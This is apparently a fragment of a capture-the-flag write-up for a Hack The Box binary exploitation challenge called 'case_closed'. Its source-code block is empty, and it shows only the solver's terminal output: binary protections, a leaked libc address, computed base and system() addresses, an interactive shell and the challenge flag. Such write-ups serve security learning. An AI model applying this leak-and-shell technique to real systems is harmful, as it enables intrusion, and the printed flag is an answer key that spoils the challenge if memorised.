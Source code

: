 ```python
```



### PoC: :checkered_flag:

```sh
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] 'challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'challenge/case_closed'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './case_closed'
Leaked: 0x7fe1478a5210
Base:   0x7fe147795000
System: 0x7fe1477e4550
[*] Switching to interactive mode
 HTB{s0m3t1m3s_u_n33d_t0_0p3n_th3_c4s3_4g41n}
[*] Got EOF while reading in interactive
$ id
$ id
[*] Closed connection to 172.17.0.1 port 1337
[*] Got EOF while sending in interactive
```


